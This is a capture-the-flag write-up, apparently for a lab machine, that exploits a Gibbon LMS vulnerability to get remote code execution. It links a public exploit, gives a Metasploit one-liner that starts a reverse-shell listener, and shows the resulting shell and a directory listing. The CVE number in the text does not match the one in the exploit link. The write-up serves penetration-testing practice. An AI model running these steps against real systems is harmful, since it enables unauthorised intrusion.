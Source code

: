 Unfortunately for us, the sql file does not contain any relevant info as users, seems like a waste then, if we check for any other exploit on this version, we can find:

![](images/Pasted%20image%2020250616170727.png)

We find `CVE-2023-34878` this is a vuln which talks about arbitrary file read that leads to rce, if we search for an exploiit, we can find this one:

Exploit: https://github.com/0xyy66/CVE-2023-45878_to_RCE

![](images/Pasted%20image%2020250616171019.png)

Let's do the exploit, we need a Metasploit listener using multi handler, we can use this simple one liner to start it:

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD generic/shell_reverse_tcp; set LHOST IP; set LPORT 4444; exploit"
```

Now, start the exploit:


![](images/Pasted%20image%2020250616171931.png)

As seen, we get a reverse shell as:

```powershell
C:\xampp\htdocs\Gibbon-LMS>whoami
whoami
frizz\w.webservice
```

Time to look around the machine:

```
C:\xampp\htdocs\Gibbon-LMS>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp\htdocs\Gibbon-LMS

06/16/2025  10:16 PM    <DIR>          .
10/29/2024  07:28 AM    <DIR>          ..
01/20/2023  07:04 AM               634 .htaccess
06/16/2025  10:18 PM             7,168 7zip.exe
01/20/2023  07:04 AM           197,078 CHANGEDB.php
01/20/2023  07:04 AM           103,023 CHANGELOG.txt
01/20/2023  07:04 AM             2,972 composer.json
01/20/2023  07:04 AM           294,353 composer.lock
10/11/2024  08:15 PM             1,307 config.php
01/20/2023  07:04 AM             3,733 error.php
01/20/2023  07:04 AM             1,608 export.php
01/20/2023  07:04 AM            32,988 favicon.ico
01/20/2023  07:04 AM             2,277 fullscreen.php
01/20/2023  07:04 AM            57,535 functions.php
01/20/2023  07:04 AM             5,610 gibbon.php
10/29/2024  07:27 AM           493,211 gibbon.sql
01/20/2023  07:04 AM         1,254,473 gibbon_demo.sql
06/16/2025  10:18 PM                33 gibbon_myconfig.php
01/20/2023  07:04 AM    <DIR>          i18n
01/20/2023  07:04 AM            31,228 index.php
01/20/2023  07:04 AM             2,356 indexExport.php
01/20/2023  07:04 AM               813 indexFindRedirect.php
01/20/2023  07:04 AM            12,327 index_fastFinder_ajax.php
01/20/2023  07:04 AM             2,579 index_notification_ajax.php
01/20/2023  07:04 AM             2,767 index_notification_ajax_alarm.php
01/20/2023  07:04 AM             1,690 index_notification_ajax_alarmConfirmProcess.php
```